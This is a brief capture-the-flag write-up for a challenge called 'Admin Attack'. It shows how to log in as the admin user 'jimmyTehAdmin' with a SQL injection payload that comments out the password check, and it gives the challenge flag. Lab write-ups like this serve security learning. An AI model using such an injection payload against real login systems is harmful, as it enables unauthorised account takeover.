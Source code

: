 # Admin Attack

This is the same principle as Baiting. This time we need to log into the admin user.

From the list of users we found with the devloper credentials, `jimmyTehAdmin` is the account we need to log in to.

We can use a similar payload to before (this challenge is more resitant to SQLMap)

```' OR username='jimmyTehAdmin' -- ```

#### Flag: ractf{!!!4dm1n4buse!!!}
